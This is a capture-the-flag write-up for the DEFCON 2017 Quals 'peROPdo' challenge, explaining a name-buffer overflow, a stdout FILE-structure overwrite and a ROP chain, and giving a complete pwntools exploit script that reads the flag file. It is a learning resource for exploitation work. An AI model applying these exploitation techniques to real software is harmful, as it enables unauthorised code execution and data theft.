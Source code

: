 ```yaml
---
title: DEFCON CTF 2017 Quals -- peROPdo
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- Python
- C
- DEFCON
- CTF
- Pwnable
- ROP
- BOF
- file_stream_pointer_overflow
categories:
- write-ups
date: '2017-05-02 14:58:00 +0000'
---
```


**Category:** Potent Pwnables

32 bit ELF, static link, stripped, NX enabled, No PIE & canary.  

<!-- more -->

The program is a "rolling dice" program. First we input our name, then the program will ask us how many dice would we like to roll. After we input a number, the program will start generating some random data, then store them on the stack memory. The program will then print out `data[i] % 6 + 1`, which represent the numbers we roll in this round. 

There're two vulnerabilities in the program. First it use `scanf("%s", name)` to read our name, which lead to buffer overflow in the `name` buffer. Then, if we input a number that is larger than **23**, the data that program generated will overflow the `data[i]` buffer and **thus overwrite the return address** ( it will be a random data though ).  

Since the binary was stripped, I wasn't sure which algorithm the program used for randomizing, the only thing I knew is that the algorithm will use our name to generate the random data. At that moment, I thought it was just some self-implement function ( which is **NOT** correct, we'll get into that later).  

And so I thought "Hmmm, maybe I could use some symbolic execution tool to calculate the address I want to return, and do the ROP attack". **This was such a huge mistake**, since I'm not familiar with any of the symbolic execution tools -- [angr](http://angr.io/), [Triton](https://github.com/JonathanSalwan/Triton), not to mention the fresh out [manticore](https://github.com/trailofbits/manticore). Even worse, all of the tool failed to calculate the address -- Triton and manticore couldn't even execute the program, it just crashed :(  

After wasting lots of time with those symbolic execution tools, I decided to try something different -- the first vulnerability: overflowing the `name` buffer. And the result was encouraging -- since I found that I could hijack the control flow by using the `call reg` and the `call [reg+offset]` gadget ( we can control the content of several registers ). It seems that there're some `FILE*` pointer behind the `name` buffer, so we can exploit the service by [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/) ( we can't control the function parameters though). 

Here I chose to use the second gadget ( `call [reg+offset]` ), since when the program execute to that line of code, its second parameter will be the `FILE*` pointer of `stdout`. I control the `eip` and jump to the middle of the main function:  
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- I jump to here
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

This will make the program store the `%s` string to the first parameter, then call the `scanf` function, making the program calling `scanf("%s", stdout)` -- and thus we can control the content of `stdout` !

By crafting `stdout`, we can actually hijack the control flow, while having the first parameter controlled. This allowed us to do some advanced ROP attack. Here's what I did after I controlled the `eip`:  
1. Jump to `xchg esp, eax` gadget, migrate the stack to `stdout` (which now controlled by us)  
2. Use `add esp, offset` to skip the uncontrollable member data in `stdout`  
3. Since it's a static linked binary, it's easy for us to find some gadgets and do the **open/read/write** syscall, making the service print out the flag of the challenge. (The **execve** syscall seems to be filtered out in this challenge)  


Final exploit:  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`  

Later did I know (thanks to teammate [Isaac](https://poning.me/)) that there's a thing call [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml) in IDA Pro, which can help the user identify the function call in libc. All we need to do is download a FLIRT signature database from github ( [here's](https://github.com/push0ebp/sig-database) the DB I used for this challenge ), and use **FILE --> Load File --> FLIRT signature file** to load the database. IDA will then identify the function name, making the reverse engineering less painful. By using this technique, we'll be able to identify some libc function, even the location of `stdout`.  

And that's when I found that the "self-implement random" function is actually just `srand()` & `rand()` in libc. According to [meh](https://github.com/mehQQ) from HITCON, you can just brute-force the desired return address. Moreover, because the `name` buffer address is right under the return address, so you can just use `pop esp; ret` to migrate the stack into `name` buffer, and do the ROP attack. Guess I still got a lot of shit to learn :/